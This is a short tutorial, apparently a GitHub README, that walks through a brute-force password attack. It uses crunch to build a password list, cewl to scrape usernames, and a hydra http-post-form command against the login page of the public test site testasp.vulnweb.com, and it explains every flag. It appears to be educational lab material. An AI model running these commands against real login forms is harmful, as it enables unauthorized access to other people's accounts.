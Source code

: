 # hydra-Brute-Force-Attack
Hydra Brute-Force Password Attack

Create a password list using custom words or patterns using CRUNCH<br>
<pre>crunch 6 8 abc123! passwords.txt</pre>
breakdown:<br>
crunch -> Tool<br>
6 -> Minimum Character<br>
8 -> Maximum Character<br>
abc123! -> custom word<br>
passwords.txt -> filename where words are stored<br>
<br>

create a username list from website using CEWL<br>
<pre>cewl -d 2 -w user.txt http://testasp.vulnweb.com</pre>
Breakdown:<br>
cewl -> Tool<br>
-d 2 -> Depth of two links<br>
-w -> Wordlist<br>
user.txt -> Filename<br>
http://testasp.vulnweb.com -> Website URL<br>
<br>

Brute-Force Attack using HYDRA
<pre>hydra -l Admin123 -P /usr/share/wordlists/rockyou.txt testasp.vulnweb.com http-post-form "/Login.asp:tfUName=^USER^&tfUPass=^PASS^&Login=Login:Invalid Login" -V</pre>
Breakdown:<br>
hydra -> Tool<br>
-l -> username (If Known) - If not known then -L with word.txt<br>
Admin123 -> known Username<br>
-P -> Password list<br>
/usr/share/wordlists/rockyou.txt or pass.txt you made earlier throughh crunch.<br>
testasp.vulnweb.com -> Target website<br>
http-post-form -> Form using POST method<br>
/Login.asp: -> Login page of the target website<br>
tfUName -> usernmae field (You may find using inspect elements of the browser and selecting username field you may find HTML tag property name=tfUName)<br>
&tfUPass -> password field (You may find using inspect elements of the browser and selecting password field you may find HTML tag property name=tfUPass)<br>
&Login=Login: -> For Login button<br>
Invalid Login -> Check for the login error message when entering wrong password therefore hydra keeps trying to attempt until login is successful and invalid login is not thrown back.<br>
-V - Verbose <br>
